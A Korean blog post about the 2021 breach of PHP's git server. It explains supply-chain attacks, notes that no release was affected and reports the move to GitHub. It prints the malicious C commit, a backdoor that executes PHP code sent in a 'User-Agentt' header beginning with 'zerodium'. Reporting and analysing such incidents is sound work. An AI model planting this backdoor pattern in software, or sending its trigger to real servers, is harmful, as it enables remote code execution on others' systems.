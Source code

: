 ```yaml
---
layout: post
id: 20
title: "PHP의 Git 서버가 해킹되었습니다."
subtitle: "PHP가 공급망 공격에 피해를 입었습니다."
description: "PHP의 깃 서버인 git.php.net이 공급망 공격을 당해 앞으론 github이 메인으로 사용되어집니다."
type: "PHP"
created_at: "2021-03-29"
updated_at: "2021-03-29"
blog: true
text: true
author: "silnex"
post-header: true
header-img: "img/hacked-php.png"
order: 20
tags: ["php", "hacking", "supply-chain-attack"]
comments: true
---
```


> PHP 인터널 공지: [https://news-web.php.net/php.internals/113838](https://news-web.php.net/php.internals/113838)

# TR; TL;

PHP의 git 서버가 공급망 해킹에 당해 앞으로 php-src는 Github를 메인으로 사용합니다.  
하지만 여러분에 서버에 설치된 PHP가 취약한 것은 아닙니다.  
다만, `php-src`를 직접 컴파일하여 사용하시는 분은 악성 커밋([1](https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d), [2](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a))이 소스코드에 포함되어 있는지 확인이 필요합니다.

# 공급망 공격? (Supply chain attack)

공급망 공격이란 기존의 어플리케이션이나, 서비스를 공격했던 방식이 아닌 어플리케이션 혹은 서비스에서 사용중인 vendor에 악성 코드를 심는 방식으로,
최근 오픈소스로 관리되어지는 vendor혹은 패키지의 수가 많아지고, 누구나 수정할 수 있는 점을 이용한 공격 방식입니다.

# PHP-src에 삽입된 악성 코드

```c
zval *enc;

if ((Z_TYPE(PG(http_globals)[TRACK_VARS_SERVER]) == IS_ARRAY || zend_is_auto_global_str(ZEND_STRL("_SERVER"))) &&
	(enc = zend_hash_str_find(Z_ARRVAL(PG(http_globals)[TRACK_VARS_SERVER]), "HTTP_USER_AGENTT", sizeof("HTTP_USER_AGENTT") - 1))) {
	convert_to_string(enc);
	if (strstr(Z_STRVAL_P(enc), "zerodium")) {
		zend_try {
			zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
		} zend_end_try();
	}
}
```
이 코드는 문자열이 `zerodium`으로 시작하는 경우 `User Agent` HTTP 헤더에 삽입된 PHP코드를 실행 시키는 악성 코드입니다.

근데 이 악성커밋의 작성자가 PHP 주요 개발자인 `Nikita Popov`계정과 `Rasmus Lerdorf`계정으로 푸시되어 있어 [PHP internals](https://news-web.php.net/php.internals)에서 많은 이야기가 오고 갔습니다.

Nikita Popov는 최종적으로 자체 git 서버가 아닌 기존에 미러용으로 사용하던 Github의 Repo에서 관리하기로 했으며, 개발자들에게 `2FA`를 사용하라고 권고 했습니다.

# 복구 및 피해 규모

악성 커밋은 모두 Revert 되었으며, 현재 모든 Repo에 대해서 악성 커밋을 확인하고 있다고 합니다.

PHP 보안팀과 Nikita Popov가 확인한 결과 악성 커밋이 완료된 후 Fork나 Clone된 경우가 있긴 하지만, 실제 릴리즈에는 포함되지 않는다고 전했습니다.  
또한 Nikita Popov는 해당 브랜치는 PHP 8.1 개발용 브랜치로 연말에 출시될 예정이였다고 합니다.

이후 기존의 git 서버는 폐기되고 Github으로 이동된다고 합니다.

# 마치면서

공급망 공격에 대한 경각심을 불러 일으킬만한 아주 좋은 예시가 이번에 생긴것같습니다. (PHP가 아니였음 했지만.. ㅜ)

더욱이 기존 프로젝트들이 외부 패키지나 라이브러리를 많이 의존하고 있었는데, 
이후 자체 제작을 지향하거나, 패키지 도입에 신중히 고민할 필요성이 예전보다 더욱더 생긴 것 같습니다.